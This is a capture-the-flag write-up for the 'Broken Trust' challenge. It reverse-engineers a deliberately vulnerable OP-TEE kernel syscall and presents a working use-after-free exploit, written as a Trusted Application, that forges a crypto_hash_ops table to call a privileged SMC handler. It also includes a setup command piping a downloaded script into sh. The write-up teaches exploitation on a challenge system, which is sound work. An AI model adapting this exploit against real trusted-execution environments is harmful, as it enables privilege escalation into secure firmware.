





# Broken Trust

## Desription

Time for the next challenge! Now, you'll need to exploit a vulnerability in the OP-TEE kernel itself to call privileged SMC
handler and get the flag.
This is a sequel challenge for the Trust Issues, consult previous
challenge for more information.

```bash
nc broken-trust.task.sasc.tf 46464
```

## TL;DR

Actual exploit code is [here](./solve/xploit/ta/xploit_ta.c).

All required files from original task archive is [here](./solve/server-user-reduced.tar.gz) (original archive itself is too big)

Thanks to @wx0rx and @phoen1xxx for their help and great teamwork during this task

Thanks to @m4drat and SAS CTF organizers for the great challenges and especially this one task

## Required knowledge
### Trusted Execution Environment (TEE)
[TEE (Trusted Execution Environment)](https://en.wikipedia.org/wiki/Trusted_execution_environment) is an isolated environment within the processor that ensures secure code execution and data processing. In a system with TEE, alongside the main operating system (Normal World), another one runs in protected mode (Secure World). Applications in the host operating system can use trusted functionality from Secure World by accessing corresponding trusted applications - programs that operate within the Secure World operating system environment.



### OP-TEE
[OP-TEE](https://optee.readthedocs.io/en/latest/) - an open-source TEE implementation compliant with the GlobalPlatform API standard. OP-TEE is based on ARM TrustZone hardware technology. Applications in OP-TEE's Secure World interact with its own OS kernel and are represented as Trusted Applications (TA).

## What is going on?



### OP-TEE kernel modifications
In the task, we are given an archive with everything needed to run an OP-TEE-based system on QEMU. Among the provided files is `tee.elf`—an ELF file containing the OP-TEE OS kernel. Based on the description, the task involves exploiting a vulnerability in this kernel. Moreover, the task states that to obtain the flag, one must "call privileged SMC handler"

It’s likely that the OP-TEE kernel was patched and the vulnerability was added to be exploited to execute an SMC instruction with specific register values. Let’s try to find the functionality added to the kernel using the IDA Pro decompiler. By searching function names for the keyword `sas` (the CTF name), we can find interesting functions that appear to have been added by the task author.

### syscall_sas
The first of these functions is `syscall_sas`. This is a new system call added to the kernel. The decompiled code of this system call looks fairly straightforward:
```c
TEE_Result __fastcall syscall_sas(const uint64_t op, const uint64_t id, void *buf, size_t len)
{
  void *v8; // x0
  TEE_Result result; // w0
  uint64_t v10; // x1
  mem_entry *v11; // x19
  void *va; // x0
  uint64_t v13; // x1
  mem_entry *v14; // x19
  void *v15; // x1

  trace_printf("syscall_sas", 89, 2, 1, "[SAS] op=%lu id=%lu buf=%p len=%zu", op, id, buf, len);
  if ( id > 9 )
    return -65530;
  if ( op - 1 > 3 )
    return -65526;
  switch ( (int)op )
  {
    case 1:
      v8 = malloc(len);
      if ( v8 )
      {
        memdb[id].size = len;
        memdb[id].va = v8;
LABEL_6:
        result = 0;
      }
      else
      {
        result = -65524;
      }
      break;
    case 2:
      free(memdb[id].va);
      goto LABEL_6;
    case 3:
      v10 = id;
      v11 = &memdb[id];
      if ( len > memdb[v10].size )
        return -65530;
      va = v11->va;
      if ( !va )
        goto LABEL_18;
      result = copy_from_user(va, buf, len);
      break;
    case 4:
      v13 = id;
      v14 = &memdb[id];
      if ( len > memdb[v13].size )
        return -65530;
      v15 = v14->va;
      if ( v15 )
        result = copy_to_user(buf, v15, len);
      else
LABEL_18:
        result = -65535;
      break;
    default:
      return -65526;
  }
  return result;
}
```

The system call adds classic CRUD functionality to the kernel:
1. Create - allocates an buffer in the kernel heap.
2. Read - reads from the allocated buffer.  
3. Update - writes to the allocated buffer.  
4. Delete - frees the allocated buffer.  

Inside the kernel, there's only one reference to this system call handler in the system call table. Judging by this reference, the system call has number 69.

Two vulnerabilities can be quickly identified in this system call:
1. double-free - it's possible to free a buffer at the same index twice
2. use-after-free - after freeing a buffer, it's still possible to read from and write to it

### sas_do_smc_healthcheck
Another feature that catches the eye is `sas_do_smc_healthcheck`:
```c
void __fastcall sas_do_smc_healthcheck(uint32_t smc_id, char *out_buffer)
{
  uint64_t v3; // x0
  thread_smc_args args; // [xsp+28h] [xbp+28h] BYREF

  args.a2 = 0LL;
  args.a3 = 0LL;
  if ( smc_id == 0xC2001338 )
    v3 = 0xC2001338LL;
  else
    v3 = 0xC2001337LL;
  args.a0 = v3;
  args.a1 = 0LL;
  memset(&args.a4, 0, 32);
  thread_smccc(&args, 0xC2001337LL, 0LL);
  *(_QWORD *)out_buffer = args.a1;
  *((_QWORD *)out_buffer + 1) = args.a2;
  *((_QWORD *)out_buffer + 2) = args.a3;
  *((_QWORD *)out_buffer + 3) = args.a4;
  *((_QWORD *)out_buffer + 4) = args.a5;
}
```
This function executes an SMC (Supervisor Monitor Call) instruction and stores the result in the output buffer. According to the [documentation](https://developer.arm.com/documentation/den0028/latest/), when executing the SMC instruction, its handler is determined by the contents of the `w0` register. In our case, this function writes one of two values to this register:
```c
  if ( smc_id == 0xC2001338 )
    v3 = 0xC2001338LL;
  else
    v3 = 0xC2001337LL
```
In the kernel code itself, this function is (explicitly) called only once during initialization with `0xC2001338` as the first argument `smc_id`:
```c
  sas_do_smc_healthcheck(0xC2001338, buffer);
  trace_printf("boot_init_primary_late", 1058, 2, 1, "SAS Healthcheck: %s", buffer);
  ```
It's logical to assume that with the value `0xC2001338` this function performs some kind of health check, while with all other values it executes that very privileged SMC handler which returns the flag. If this is true (we'll verify this later), then the vulnerability exploitation task boils down to calling this function with first argument differ from `0xC2001338` and reading the contents of the output buffer.

### trace_printf
In the previously shown decompiled kernel code fragments, the `trace_printf` function is called twice. As the name suggests and judging by its argument passing logic, it's used for logging events within the Secure World. According to [this information](https://github.com/OP-TEE/optee_os/issues/3121), these logs can be viewed during QEMU operation by adding a second serial port to the launch options, for example, with a TCP connection to a locally listening port.

## Environment setup



Before starting to experiment with the added system call, we need to learn how to compile, run and debug applications for OP-TEE:
1. Trusted Application (TA) - An application for OP-TEE OS where we'll be able to interact with the kernel
2. Client - A Linux application for interacting with the Trusted Application

### Docker
We'll perform the build in the OP-TEE project using the [recommended](https://optee.readthedocs.io/en/latest/building/prerequisites.html) Docker image from the documentation with minor modifications ([Dockerfile](./solve/Dockerfile)):
```Dockerfile
FROM ubuntu:22.04
ARG DEBIAN_FRONTEND=noninteractive
ENV FORCE_UNSAFE_CONFIGURE=1
RUN apt update && apt upgrade -y
RUN apt install -y \
    adb \
    acpica-tools \
    autoconf \
    automake \
    bc \
    bison \
    build-essential \
    ccache \
    cpio \
    cscope \
    curl \
    device-tree-compiler \
    e2tools \
    expect \
    fastboot \
    flex \
    ftp-upload \
    gdisk \
    git \
    libattr1-dev \
    libcap-ng-dev \
    libfdt-dev \
    libftdi-dev \
    libglib2.0-dev \
    libgmp3-dev \
    libhidapi-dev \
    libmpc-dev \
    libncurses5-dev \
    libpixman-1-dev \
    libslirp-dev \
    libssl-dev \
    libtool \
    libusb-1.0-0-dev \
    make \
    mtools \
    netcat \
    ninja-build \
    python3-cryptography \
    python3-pip \
    python3-pyelftools \
    python3-serial \
    python3-tomli \
    python-is-python3 \
    rsync \
    swig \
    unzip \
    uuid-dev \
    wget \
    xdg-utils \
    xsltproc \
    xterm \
    xz-utils \
    zlib1g-dev
WORKDIR /work
ENV PATH="$PATH:/work/optee/toolchains/aarch64/bin"
ENV PATH="$PATH:/work/optee/toolchains/aarch32/bin"
```
```bash
docker build -t xploit .
```
To conveniently run build processes inside this container, we'll use the following script ([docker.sh](./solve/docker.sh)):
```bash
#!/bin/bash

docker run \
  -it \
  --rm \
  --name xploit \
  -v .:/work \
  xploit \
  $@
  ```
  
### OP-TEE build


To build applications for OP-TEE, we first need to build OP-TEE itself. According to the [documentation](https://optee.readthedocs.io/en/latest/building/devices/qemu.html#qemu-v8), this can be done in the following way:
```bash
if [[ ! -d ./optee ]]; then
  mkdir ./optee
  cd ./optee
  repo init -u https://github.com/OP-TEE/manifest.git -m qemu_v8.xml -b 4.5.0
  repo sync
  cd ../
  ./docker.sh make -C /work/optee/build toolchains
  ./docker.sh make -C /work/optee/build -j$((`nproc`+1))
fi
```
### xploit
The easiest way to create a new OP-TEE application is to base it on existing [examples](https://github.com/linaro-swg/optee_examples). Specifically, we'll take the `hello_world` example and use it as a base for [xploit](./solve/xploit), where we'll conduct experiments with the system call and later exploit the vulnerability. Let's copy the contents of the `hello_world` example while renaming relevant parts. We'll end up with the following file structure:
```
xploit
├── Android.mk
├── CMakeLists.txt
├── host
│   ├── main.c
│   └── Makefile
├── Makefile
└── ta
    ├── Android.mk
    ├── include
    │   └── xploit_ta.h
    ├── Makefile
    ├── sub.mk
    ├── user_ta_header_defines.h
    └── xploit_ta.c
```
The [host](./solve/xploit/host) directory contains the client code that will run in Linux, while [ta](./solve/xploit/ta) holds the TA (Trusted Application) code that will execute directly in the OP-TEE environment. The minimal required TA functionality:
```c
#include <tee_internal_api.h>
#include <tee_internal_api_extensions.h>

#include <xploit_ta.h>

static void exploit(void)
{
	// TODO
}

TEE_Result TA_CreateEntryPoint(void)
{
  return TEE_SUCCESS;
}

void TA_DestroyEntryPoint(void)
{
}

TEE_Result TA_OpenSessionEntryPoint(uint32_t param_types,
  TEE_Param __maybe_unused params[4],
  void __maybe_unused **sess_ctx)
{
  return TEE_SUCCESS;
}

void TA_CloseSessionEntryPoint(void __maybe_unused *sess_ctx)
{
}

TEE_Result TA_InvokeCommandEntryPoint(void __maybe_unused *sess_ctx,
  uint32_t cmd_id,
  uint32_t param_types, TEE_Param params[4])
{
  DMSG("xploit\n");
  exploit();
}
```
Minimal required client functionality:
```c
#include <err.h>
#include <stdio.h>
#include <string.h>

#include <tee_client_api.h>

#include <xploit_ta.h>

int main(void)
{
  TEEC_Result res;
  TEEC_Context ctx;
  TEEC_Session sess;
  TEEC_Operation op;
  TEEC_UUID uuid = TA_XPLOIT_UUID;
  uint32_t err_origin;

  res = TEEC_InitializeContext(NULL, &ctx);
  if (res != TEEC_SUCCESS)
    errx(1, "TEEC_InitializeContext failed with code 0x%x", res);

  res = TEEC_OpenSession(&ctx, &sess, &uuid,
             TEEC_LOGIN_PUBLIC, NULL, NULL, &err_origin);
  if (res != TEEC_SUCCESS)
    errx(1, "TEEC_Opensession failed with code 0x%x origin 0x%x",
      res, err_origin);

  memset(&op, 0, sizeof(op));

  op.paramTypes = TEEC_PARAM_TYPES(TEEC_NONE, TEEC_NONE, TEEC_NONE, TEEC_NONE);

  res = TEEC_InvokeCommand(&sess, 0, &op, &err_origin);
  if (res != TEEC_SUCCESS)
    errx(1, "TEEC_InvokeCommand failed with code 0x%x origin 0x%x",
      res, err_origin);

  TEEC_CloseSession(&sess);

  TEEC_FinalizeContext(&ctx);

  return 0;
}
```
We'll build `xploit` using the following script ([build.sh](./solve/build.sh)):
```bash
#!/bin/bash

set -e

if [[ ! -d ./optee ]]; then
  mkdir ./optee
  cd ./optee
  repo init -u https://github.com/OP-TEE/manifest.git -m qemu_v8.xml -b 4.5.0
  repo sync
  cd ../
  ./docker.sh make -C /work/optee/build toolchains
  ./docker.sh make -C /work/optee/build -j$((`nproc`+1))
fi

./docker.sh make -C /work/xploit/ -j$((`nproc`+1)) \
  TEEC_EXPORT=/work/optee/out-br/per-package/optee_client_ext/target/usr \
  TA_DEV_KIT_DIR=/work/optee/optee_os/out/arm/export-ta_arm64 \
  CROSS_COMPILE=aarch64-none-linux-gnu-
  ```
  We’ll also create a cleanup script for convenience ([clean.sh](./solve/clean.sh)):
```bash
#!/bin/bash

./docker.sh make -C /work/xploit/ \
	TEEC_EXPORT=/work/optee/out-br/per-package/optee_client_ext/target/usr \
	TA_DEV_KIT_DIR=/work/optee/optee_os/out/arm/export-ta_arm64 \
	CROSS_COMPILE=aarch64-none-linux-gnu- \
	clean
```
After building, you can find the Linux client at `xploit/host/xploit`, and the signed TA (Trusted Application) ready for execution in OP-TEE at `xploit/ta/41414141-4141-4141-4141-414141414141.ta`.

### QEMU
To launch QEMU, we'll use a slightly modified version of the script from the task archive ([run.sh](./solve/run.sh)):
```bash
#!/bin/bash

cd ./server-user/app/bin

qemu-system-aarch64 \
    -nographic \
    -smp 2 -cpu max,sme=on,pauth-impdef=on -d unimp \
    -semihosting-config enable=on,target=native -m 1057 \
    -bios bl1.bin \
    -kernel Image \
    -append 'console=ttyAMA0,38400 keep_bootcon root=/dev/ram0' \
    -netdev user,id=vmnic -device virtio-net-device,netdev=vmnic \
    -machine virt,acpi=off,secure=on,mte=off,gic-version=3,virtualization=false \
    -serial stdio -serial tcp:127.0.0.1:31337 \
    -monitor null \
    -gdb tcp::31338
```
One of particular interest among these launch options is `-serial tcp:127.0.0.1:31337`, which will redirect the second serial port—outputting Secure World logs—to a locally listening port 31337 ([listen.sh](./solve/listen.sh)):
```bash
#!/bin/bash

while true; do
  nc -lvp 31337
done
```
The `-gdb tcp::31338` option allows debugging of code running in QEMU by connecting to a gdbserver on port 31338.

### Running
After launching QEMU with the script described above, we need to deliver the client and TA to the filesystem. Since the QEMU launch script in the task is configured with network access to the host, we can use `wget` for this purpose. First, let's start a simple HTTP server on the host:
```bash
python3 -m http.server 8080
```
We'll create the following script to load the client and TA, and then execute the client ([xploit.sh](./solve/xploit.sh)):
```bash
#!/bin/sh

set -e

A=${A:-"10.0.2.2:8080"}

wget -P / http://${A}/xploit/host/xploit
chmod u+x /xploit
wget -P /lib/optee_armtz/ http://${A}/xploit/ta/41414141-4141-4141-4141-414141414141.ta
/xploit
```
Now after launching QEMU, we just need to download the `xploit.sh` script over the network and execute it:
```bash
export A=10.0.2.2:8080; wget -O - http://${A}/xploit.sh | sh
```
The client runs silently (without errors), while in the Secure World logs (`listen.sh` output) we can see:
```
I/TC: SAS Healthcheck: SAS{HEALTHCHECK!!!!!!!!}
...
D/TA:  __GP11_TA_InvokeCommandEntryPoint:110 xploit
```
The first line corresponds to the executed SMC handler call for health check, while the second one shows debug output from within the TA.

### Debugging
Prepare a gdb script to connect to the server, load symbols, and set breakpoints in the kernel locations of interest ([script.gdb](./solve/script.gdb)):
```gdb
target remote :31338
add-symbol-file ./server-user/app/tee.elf
b *syscall_sas+140
b *syscall_sas+212
b *syscall_sas+280
b *sas_do_smc_healthcheck
```
### In memory of the hours we spent
Despite the apparent simplicity of the described environment setup scripts, this part of the task turned out to be the most challenging and gave us an unforgettable experience... But unfortunately, due to the time spent on it, we never managed to submit the flag for this task on time :(

## Exploitation

### syscall
After the environment setup, we can proceed to exploit the vulnerability. For this, in the TA, we implement functions to work with the corresponding operations in `syscall_sas`:
```c
static uint64_t syscall_sas(uint64_t op, uint64_t idx, void*buf, size_t len)
{
  uint64_t ret = 0;

  asm volatile (
    "mov x0, %[op]\n"
    "mov x1, %[idx]\n"
    "mov x2, %[buf]\n"
    "mov x3, %[len]\n"
    "mov x8, #69\n"
    "svc #0\n"
    "mov %[ret], x0\n"
    : [ret] "=r" (ret)
    : [op] "r" (op), [idx] "r" (idx), [buf] "r" (buf), [len] "r" (len)
    : "x0", "x1", "x2", "x3", "x8"
  );

  return ret;
}

static uint64_t sas_alloc(uint64_t idx, size_t len)
{
  return syscall_sas(1, idx, NULL, len);
}

static uint64_t sas_free(uint64_t idx)
{
  return syscall_sas(2, idx, NULL, 0);
}

static uint64_t sas_write(uint64_t idx, const uint8_t* buf, size_t len)
{
  return syscall_sas(3, idx, buf, len);
}

static uint64_t sas_read(uint64_t idx, uint8_t* buf, size_t len)
{
  return syscall_sas(4, idx, buf, len);
}
```

### use-after-free


Among the two vulnerabilities discovered in `syscall_sas`, we'll attempt to exploit the use-after-free. The ability to write to a freed buffer can be exploited in two ways:

1. Overwrite the allocator's metadata that it places in freed chunks, forcing the allocator to return an arbitrary address for writing.
2. Trigger reallocation of the freed chunk in another kernel code to gain the ability to modify some kernel object through writes to the freed (but reused) buffer.

We'll attempt to build our exploitation using the second method, as the first one requires studying the specific behavior of the allocator.

### Gadget
To exploit the use-after-free using the described method, we need to find a suitable kernel object (gadget) whose modification will allow us to invoke the desired SMC handler. Since we need to hijack control flow in the kernel, the gadget search should focus on objects containing either function pointers or virtual function table pointers (ops). 

Crucially, the target function we will find pointer to must accept some output buffer address as its second argument—this lets us later read the data inside our TA. This requirement exists to reuse the existing `sas_do_smc_healthcheck` function: when called with any first argument other than 0xC2001338, it triggers our target SMC handler and writes the flag into the buffer passed as the second argument. 

Fortunately, a kernel type search (using the keyword `ops`) quickly revealed the `crypto_hash_ops` virtual function table with a method `final` that matches both our needed signature and purpose, along with its corresponding `crypto_hash_ctx` type:
```c
struct crypto_hash_ctx {
        const struct crypto_hash_ops *ops;
};

struct crypto_hash_ops {
        TEE_Result (*init)(struct crypto_hash_ctx *ctx);
        TEE_Result (*update)(struct crypto_hash_ctx *ctx, const uint8_t *data,
                             size_t len);
        TEE_Result (*final)(struct crypto_hash_ctx *ctx, uint8_t *digest,
                            size_t len);
        void (*free_ctx)(struct crypto_hash_ctx *ctx);
        void (*copy_state)(struct crypto_hash_ctx *dst_ctx,
                           struct crypto_hash_ctx *src_ctx);
};
```
As evident from the structure description, the `final` method writes the computed hash value into the buffer provided as the second argument. If we manage to either:
1. Replace the `final` method in the existing table with `sas_do_smc_healthcheck`, or  
2. Create a fake table with this substitution,  

then during a hash computation operation, we might be able to write the flag into the output buffer instead of the hash value.

### Attempt 0x00
To execute this attack, we need to determine which TA code methods can allocate `crypto_hash_ctx` and trigger calls to the `final` method from `crypto_hash_ops`. For this purpose, we can study the [TEE Internal API documentation](https://globalplatform.org/wp-content/uploads/2018/06/GPD_TEE_Internal_Core_API_Specification_v1.1.2.50_PublicReview.pdf). A quick keyword search reveals the required call sequence:
```c
TEE_AllocateOperation(&operation, 
	<hashing_algorithm>,  
	TEE_MODE_DIGEST,
	0);
TEE_DigestDoFinal(operation,
	 <data>, <data_len>,
	 <output_buffer>, <output_buffer_len>);
```

The first call should allocate our gadget object, and the second call should invoke the `final` method. 
If `sas_do_smc_healthcheck` is called instead of the real `final`, the flag will be written to `output_buffer`.
For the `data` and `data_len` parameters, we can pass any valid data for "hashing". 
The `hashing_algorithm` parameter is more interesting because it determines which virtual table will be used. 
The kernel code contains four `crypto_hash_ops` virtual tables:

- `sm3_hash_ops`
- `ltc_hash_ops`
- `shake128_ops`
- `shake256_ops`

But all these virtual tables are read-only, so it means that we need to create our own fake virtual table. 
Also it means that we can use any value of `hasing_algorithm` parameter (let's choose `TEE_ALG_MD5` for example) cause we will use our own virtual table. 

So, during exploitation we'll need to:

1. Place a fake virtual table at known location in kernel memory
2. Write a pointer to it in the target object

We can achieve this by placing fake table in one of the buffers in `syscall_sas` and writing it's address (we know it cause there is no ASLR) in the target object. 
What function's addresses should we write in the fake table?

- We must write `sas_do_smc_healthcheck` in place of the `final` method
- For other methods, the simplest solution is to use addresses from the existing valid table to avoid execution errors before reaching the `final` call

It seems that exploitation shouldn't depend on which of the four tables we choose as base for the fake one, so we'll use `ltc_hash_ops` table.

Putting it all together, we get the following exploit code in the TA:
```c
char flag[0x100];

static void exploit(void)
{
  // Fake crypto_hash_ops
  // All methods are real except final
  // Method final changed to sas_do_smc_healthcheck
  const uint64_t fake_ops[] =
  {
    0xE1DCB70, 0xE1DCB28, 0x0E1AD418, 0xE1DCBA0, 0xE1DCC88
  };

  // Address of index 0 buffer, where fake_ops will be stored
  // Found in debugger - constant without ASLR
  const uint64_t fake_ops_address = 0xe145480;

  // Put fake_ops at fake_ops_address
  sas_alloc(0, 0x1000);
  sas_write(0, fake_ops, sizeof(fake_ops));

  // Allocate and free buffer that will be reused for crypto_hash_ctx
  // Size 0x1B0 found in debugger
  sas_alloc(1, 0x1B0uLL);
  sas_free(1);

  // Allocate crypto_hash_ctx (reuse buffer with index 1)
  TEE_Result res;
  TEE_OperationHandle operation;
  res = TEE_AllocateOperation(&operation, TEE_ALG_MD5, TEE_MODE_DIGEST, 0);
  if (res != TEE_SUCCESS)
  {
    EMSG("AllocateOperation failed res=0x%08x", res);
    return;
  }

  // Overwrite real pointer to ops with the fake one
  sas_write(1, &fake_ops_address, sizeof(fake_ops_address));

  // Trigger method final changed to sas_do_smc_healthcheck
  char msg[]      = "kek";
  size_t hash_len = sizeof(flag);
  res = TEE_DigestDoFinal(operation, msg, sizeof(msg), flag, &hash_len);
  if (res != TEE_SUCCESS)
  {
    EMSG("AllocateOperation failed res=0x%08x", res);
    return;
  }

  // Print flag in Secure World logs
  DMSG("flag @ %s\n", flag);
}
```
### Fuckup 0x00
Regrettably, the exploit attempt failed when a validation assert detected our forged `ops` pointer as invalid, triggering a kernel panic:
```
D/TA:  __GP11_TA_InvokeCommandEntryPoint:146 xploit
I/TC: [SAS] op=1 id=0 buf=0x0 len=4096
I/TC: [SAS] op=3 id=0 buf=0x40016e28 len=40
I/TC: [SAS] op=1 id=1 buf=0x0 len=432
I/TC: [SAS] op=2 id=1 buf=0x0 len=0
I/TC: [SAS] op=3 id=1 buf=0x40016e10 len=8
E/TC:? 0 assertion 'ctx && ctx->ops == &ltc_hash_ops' failed at core/lib/libtomcrypt/hash.c:31 <to_hash_ctx>
E/TC:0 0 Panic at core/kernel/assert.c:28 <_assert_break>
E/TC:0 0 TEE load address @ 0xe100000
E/TC:0 0 Call stack:
E/TC:0 0  0x0e1061e4
E/TC:0 0  0x0e10ab88
E/TC:0 0  0x0e10a924
E/TC:0 0  0x0e1dcb20
E/TC:0 0  0x0e1dcb3c
E/TC:0 0  0x0e1cccdc
E/TC:0 0  0x0e1acbbc
E/TC:0 0  0x0e1051f0
E/TC:0 0  0x0e104130
I/TC: Halting CPU 1
```
### Attempt 0x01
Upon closer examination of the methods in the `crypto_hash_ops` virtual tables, it becomes clear that both `ltc_hash` and `sm3_hash` perform table address validation in all their methods. Fortunately, this validation is absent in `shake128` and `shake256`. We’ll now replace all methods except `final` in our `fake_ops` with their corresponding methods from `shake256_ops`:
```C
  const uint64_t fake_ops[] =
  {
    0xE1DE140, 0xE1DE11C, 0x0E1AD418, 0xE1DE0F4, 0xE1DE168
  };
```
### Fuckup 0x01
This attempt also failed with a panic, but in the TA rather than the kernel:
```
D/TA:  __GP11_TA_InvokeCommandEntryPoint:139 xploit
I/TC: [SAS] op=1 id=0 buf=0x0 len=4096
I/TC: [SAS] op=3 id=0 buf=0x40016e28 len=40
I/TC: [SAS] op=1 id=1 buf=0x0 len=432
I/TC: [SAS] op=2 id=1 buf=0x0 len=0
I/TC: [SAS] op=3 id=1 buf=0x40016e10 len=8
E/TC:? 0
E/TC:? 0 TA panicked with code 0xe115000
E/LD:  Status of TA 41414141-4141-4141-4141-414141414141
E/LD:   arch: aarch64
E/LD:  region  0: va 0x40006000 pa 0x00000000 size 0x002000 flags rw-s (ldelf)
E/LD:  region  1: va 0x40008000 pa 0x00000000 size 0x008000 flags r-xs (ldelf)
E/LD:  region  2: va 0x40010000 pa 0x00000000 size 0x001000 flags rw-s (ldelf)
E/LD:  region  3: va 0x40011000 pa 0x00000000 size 0x004000 flags rw-s (ldelf)
E/LD:  region  4: va 0x40015000 pa 0x00000000 size 0x001000 flags r--s
E/LD:  region  5: va 0x40016000 pa 0x00000000 size 0x001000 flags rw-s (stack)
E/LD:  region  6: va 0x40017000 pa 0x4487e070 size 0x001000 flags rw-- (param)
E/LD:  region  7: va 0x4008d000 pa 0x00000000 size 0x019000 flags r-xs [0]
E/LD:  region  8: va 0x400a6000 pa 0x00000000 size 0x00d000 flags rw-s [0]
E/LD:   [0] 41414141-4141-4141-4141-414141414141 @ 0x4008d000
E/LD:  Call stack:
E/LD:   0x40091408
E/LD:   0x400914b0
E/LD:   0x4008d2c4
E/LD:   0x40094b50
E/LD:   0x40094940
E/LD:   0x4008d32c
```
After examining the OP-TEE kernel library code, it becomes clear that the issue lies in the `TEE_DigestDoFinal` function—specifically in how it handles non-zero return values from the syscall:
```c
out:
	if (res != TEE_SUCCESS &&
	    res != TEE_ERROR_SHORT_BUFFER)
		TEE_Panic(res); 
```
Thus, the panic occurs because our replaced `final` method returns a non-zero value.

### Attempt 0x02 
We can resolve this issue by rewriting the necessary call using a lower-level API:
```c
  char msg[]      = "kek";
  size_t hash_len = sizeof(flag);
  _utee_hash_final(*(uint32_t*)((char*)operation+0x58), msg, sizeof(msg)-1, flag, &hash_len);
```
### Almost win
This time, everything executes exactly as originally intended, and the flag appears in the Secure World logs.
```
D/TA:  __GP11_TA_InvokeCommandEntryPoint:123 xploit
I/TC: [SAS] op=1 id=0 buf=0x0 len=4096
I/TC: [SAS] op=3 id=0 buf=0x40016e28 len=40
I/TC: [SAS] op=1 id=1 buf=0x0 len=432
I/TC: [SAS] op=2 id=1 buf=0x0 len=0
I/TC: [SAS] op=3 id=1 buf=0x40016e10 len=8
D/TA:  exploit:96 flag @ SAS{y0u_got_it_now_do_the_same_remotely}
```
One final step remains—to transfer this flag from the TA back to the client and display it on screen. For this, we'll add to the TA code:
```c
TEE_Result TA_InvokeCommandEntryPoint(void __maybe_unused *sess_ctx,
  uint32_t cmd_id,
  uint32_t param_types, TEE_Param params[4])
{
  DMSG("xploit\n");
  exploit();
  TEE_MemMove(params[0].memref.buffer, flag, params[0].memref.size);
  return TEE_SUCCESS;
}
```
And in the client code:
```c
  op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_OUTPUT, TEEC_NONE, TEEC_NONE, TEEC_NONE);
  op.params[0].tmpref.buffer = flag;
  op.params[0].tmpref.size = sizeof(flag);

  res = TEEC_InvokeCommand(&sess, 0, &op, &err_origin);
  if (res != TEEC_SUCCESS)
    errx(1, "TEEC_InvokeCommand failed with code 0x%x origin 0x%x",
      res, err_origin);

  printf("%s\n", flag);
```
### Win
We execute the final version of `xploit` remotely and successfully retrieve the flag:
```
SAS{fr0m_SEL0_t0_k3rnel_4nd_bey0nd}
```


